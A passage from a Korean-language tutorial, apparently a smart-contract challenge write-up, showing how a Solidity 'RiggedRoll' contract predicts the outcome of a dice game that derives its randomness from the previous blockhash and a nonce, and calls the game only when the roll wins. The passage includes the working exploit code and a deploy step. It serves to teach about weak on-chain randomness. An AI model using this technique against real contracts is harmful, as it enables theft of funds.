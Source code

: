 따라서 이 세 개의 값을 미리 알고 있다면, 결과 값을 미리 예측할 수 있다.

추가적인 컨트랙트 `RiggedRoll.sol` 에 결과 값을 먼저 예측한 뒤 성공했을 때만 `DiceGame.sol`의 `rollTheDice()`를 실행하게 하는 함수를 작성한다.

```solidity
function riggedRoll() public payable {
    require(address(this).balance >= .002 ether, "Not enough ether");

    // DiceGame.sol의 rollTheDice 함수와 동일하게 주사위 결과 값 도출
    bytes32 prevHash = blockhash(block.number - 1);
    bytes32 hash = keccak256(abi.encodePacked(prevHash, address(diceGame), diceGame.nonce()));
    uint256 roll = uint256(hash) % 16;
    console.log("\t", "   Rigged Roll", block.number, roll);

    // 0,1,2,3,4,5가 나오면 DiceGame.sol의 rollTheDice 실행
    require(roll <= 5, "Failed");
    diceGame.rollTheDice{value: msg.value}();
}
```

❗️ RigedRoll contract를 `deploy`하기 전 `packages/hardhat/deploy/01_deploy_riggedRoll.ts` 에서 소유자를 나의 지갑 주소로 변경한다.

```typescript
// 나중에 남아있는 잔고를 인출 받을 지갑 주소를 입력
try {
  await riggedRoll.transferOwnership("내 지갑 주소");
} catch (err) {
  console.log(err);
}
```

이제 다시 `Dice Game` 탭에서 `Rigged Roll` 버튼을 클릭하여 주사위를 굴린다.

실패하면 require문에 의해 트랜잭션 자체가 revert 되어 참가비가 지불되지 않는다.

```solidity
require(roll <= 5, "Failed");
```

<img src='./images/rigged_roll_failed.png' width='600px' />
